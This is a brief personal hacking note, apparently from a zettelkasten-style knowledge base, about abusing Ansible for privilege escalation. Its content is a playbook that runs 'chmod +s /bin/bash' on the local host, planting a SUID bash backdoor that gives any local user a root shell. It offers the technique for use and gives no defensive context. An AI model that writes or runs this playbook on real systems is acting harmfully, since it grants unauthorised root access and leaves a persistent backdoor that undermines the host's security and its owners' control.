 # ansible exploiting playbook priv esc backdoor
```yaml
- name: "whatever"
  hosts: localhost
  connection: local
  tasks:
    - name: "whatever"
      shell: "chmod +s /bin/bash"
      register: "output"
```

# References
- [20221003150338](/zet/20221003150338/README.md) ansible exploiting playbook
- ~/kb/hacking/misc/ansible.md

Tags:
    #assorted #hacking #ansible
